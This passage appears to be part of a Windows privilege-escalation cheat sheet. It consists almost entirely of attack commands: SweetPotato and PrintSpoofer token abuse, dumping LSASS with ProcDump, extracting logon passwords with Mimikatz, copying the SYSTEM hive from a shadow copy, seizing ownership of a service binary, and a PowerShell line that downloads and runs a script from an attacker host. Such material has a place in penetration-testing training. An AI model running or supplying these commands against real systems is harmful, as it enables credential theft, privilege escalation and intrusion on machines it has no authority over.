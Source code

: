     ```
    SweetPotato.exe <options> C:\Windows\System32\cmd.exe /c whoami
    ```
    
- PrintSpoofer:
    
    ```
    PrintSpoofer.exe C:\Windows\System32\cmd.exe /c whoami
    ```
    
- Dump LSASS with ProcDump (Sysinternals):
    
    ```
    procdump.exe -accepteula -ma lsass.exe lsass.dmp
    ```
    
- Mimikatz (on target or on dump):
    
    ```
    mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords"
    ```
    
- Gain file access via backup (example idea):
    
    ```
    # create shadow copy (may require admin/backup)
    vssadmin create shadow /for=C:
    # copy file from shadow to tmp
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\Windows\System32\config\SYSTEM C:\temp\SYSTEM
    ```
    
- Take ownership & change ACL:
    
    ```
    takeown /f "C:\Program Files\Svc\svc.exe"
    icacls "C:\Program Files\Svc\svc.exe" /grant %USERNAME%:F
    ```
    
- Run local enumeration:
    
    ```
    # on target
    powershell -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://<KALI_IP>/winPEAS.ps1')"
    ```
    

---
